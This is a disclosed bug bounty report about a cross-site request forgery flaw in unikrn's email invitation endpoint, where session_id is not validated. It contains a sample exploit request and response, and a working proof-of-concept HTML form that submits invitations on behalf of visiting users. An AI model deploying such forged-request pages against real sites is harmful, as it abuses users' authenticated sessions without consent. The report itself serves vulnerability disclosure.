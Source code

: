 # session_id is not being validated at email invitation endpoint

## Report Details
- **Report ID**: 292636
- **URL**: https://hackerone.com/reports/292636
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-11-23T15:01:20.700Z
- **Disclosed**: 2018-04-10T02:20:09.095Z

## Reporter
- **Username**: tolo7010
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
session_id is not being validated at email invitation endpoint

request sample:
``` 
POST /apiv1/inviteemail HTTP/1.1
Host: unikrn.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://unikrn.com/profile
Content-Type: application/json
Application-Version: v3.9.1-1476-g6500a2c
Content-Length: 51
Cookie: ...
Connection: close

{"email":"victim@email.com","session_id":""}
``` 

response sample:
``` 
HTTP/1.1 200 OK
Date: Thu, 23 Nov 2017 14:26:58 GMT
Content-Type: application/json
Content-Length: 150
Connection: close
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 86400
Cache-Control: no-store, no-cache, must-revalidate
CI: M-production C-1 V-1.2.0
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Vary: Accept-Encoding
Vary: Origin
X-XSS-Protection: 1; mode=block
Server: cloudflare-nginx
CF-RAY: 3c24ce767b1e340f-HKG

{"error":false,"success":true,"msg":"We invited victim@email.com for you","msg_trans":"We invited victim@email.com for you","data":null}
``` 

CSRF Page:
``` 
<!doctype html>
<html>
<head>
</head> 
<body>
<form action="https://unikrn.com/apiv1/inviteemail" method="POST">
<input type="hidden" name="email" id="email" value="tololovejoi@hotmail.com">
<input type="hidden" name="session_id" id="session_id" value="">
<input type="submit">
</form>
</body>
</html>
```

## Impact

The victim email get filled on behalf of legitimated users visiting the CSRF page

## Attachments
No attachments
